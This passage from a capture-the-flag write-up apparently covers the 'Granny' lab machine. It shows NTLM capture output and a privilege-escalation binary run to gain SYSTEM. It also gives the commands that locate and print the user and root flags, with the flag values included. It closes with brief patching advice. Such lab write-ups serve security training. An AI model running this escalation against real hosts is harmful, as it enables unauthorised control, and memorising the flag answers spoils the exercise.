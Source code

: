```none
[*] GRANPA$::HTB:6dabc0316e40693500000000000000000000000000000000:98338fd54b7c874aef05a162208e8dffb8b2b32fbf4e8c57:4141414141414141
[-] Unknown level for query path info! 0x109
eeel[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.14,1058)
[*] Remaining connections []
```

I then verified that the exploit was capable of running commands with SYSTEM privileges:

```none
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "whoami"
c:\Windows\Temp\pr.exe "whoami"
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 1816
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:whoami
nt authority\system
```

I then searched the system for the `user.txt` and `root.txt` files with the following commands:

```none
cd c:\
"C:\WINDOWS\Temp\pr.exe" "dir user.txt* /s"
"C:\WINDOWS\Temp\pr.exe" "dir root.txt* /s"
```

From there, I was able to grab the `user.txt` flag:

```none
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Harry\Desktop\user.txt\""
c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Harry\Desktop\user.txt\""
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 2756
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:type "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c3cff017f2bedc146a5d869
```

And the `root.txt` flag:

```none
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Administrator\Desktop\root.txt\""
c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Administrator\Desktop\root.txt\""
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 2756
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:type "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e905a2c35f861f6a57cecf28bb7b
```

## Countermeasures

* Update to the latest version of Windows Server currently available.
* Update to the latest version of IIS currently available.
